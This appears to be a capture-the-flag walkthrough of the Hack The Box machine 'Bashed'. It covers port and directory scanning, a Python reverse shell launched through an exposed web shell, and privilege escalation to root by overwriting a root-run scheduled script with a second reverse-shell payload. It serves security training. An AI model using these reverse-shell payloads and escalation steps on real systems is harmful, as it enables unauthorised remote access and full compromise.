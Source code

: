 ## Bashed

Machine ip: 10.10.10.68

### Scanning

### Nmap Scanning

```bash
$ cat nmap/initial.nmap  
# Nmap 7.91 scan initiated Thu Aug 19 16:10:22 2021 as: nmap -sC -sV -oA nmap/initial 10.10.10.68
Nmap scan report for 10.10.10.68
Host is up (0.099s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Arrexel's Development Site

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Aug 19 16:10:34 2021 -- 1 IP address (1 host up) scanned in 12.19 seconds
```

- Home page

![homepage](../images/bashed/homepage.PNG)

- No other pages seem to work, so run dirbuster

- on running `dirbuster`, found following directories and files

```bash
$ Starting OWASP DirBuster 1.
Starting dir/file list based brute forcing
Dir found: / - 200
Dir found: /images/ - 200
Dir found: /icons/ - 403
File found: /index.html - 200
File found: /single.html - 200
Dir found: /js/ - 200
File found: /js/jquery.js - 200
File found: /js/imagesloaded.pkgd.js - 200
File found: /js/jquery.nicescroll.min.js - 200
Dir found: /demo-images/ - 200
File found: /js/jquery.smartmenus.min.js - 200
File found: /js/jquery.carouFredSel-6.0.0-packed.js - 200
File found: /js/custom_google_map_style.js - 200
File found: /js/jquery.mousewheel.min.js - 200
File found: /js/html5.js - 200
File found: /js/jquery.touchSwipe.min.js - 200
File found: /js/jquery.easing.1.3.js - 200
File found: /js/main.js - 200
Dir found: /uploads/ - 200
Dir found: /php/ - 200
File found: /php/sendMail.php - 200
Dir found: /css/ - 200
File found: /css/carouFredSel.css - 200
File found: /css/clear.css - 200
File found: /css/common.css - 200
File found: /css/font-awesome.min.css - 200
File found: /css/sm-clean.css - 200
Dir found: /icons/small/ - 403
Dir found: /dev/ - 200
```

- Out of all `/dev` seems to be interesting and on opening the directory found `phpbash.php` which is running on lightweight bash on the browser.
- Create a reverse shell to connect back to kali machine

__Reverse shell__

```bash
www-data@bashed: /usr/bin/python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

- Now set up the listener and wait for the connection

__Result__

```bash
$ nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 55660
$ ls
ls
bin   etc	  lib	      media  proc  sbin     sys  var
boot  home	  lib64       mnt    root  scripts  tmp  vmlinuz
dev   initrd.img  lost+found  opt    run   srv	    usr
```


## Privilege Escalation

- on running `sudo -l`

```bash
www-data@bashed:/home/scriptmanager$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

- running/switching `scriptmanager` user

```bash
www-data@bashed:/home/scriptmanager$ sudo -u scriptmanager bash
sudo -u scriptmanager bash
scriptmanager@bashed:~$ ls
```

- found a schedules task in `/scripts/test.py` which is run by root
- change the contents and place the reverse shell in place of `test.py` content


- `test.py` after  modifying
```bash
#!/usr/bin/python

import os


import socket
import pty
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.2",4242))
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
pty.spawn("/bin/sh")

```

- Now set up the listener and wait for the connection

__Result__

```bash
$ nc -lvnp  4242
listening on [any] 4242 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.68] 52878
# id
id
uid=0(root) gid=0(root) groups=0(root)
```






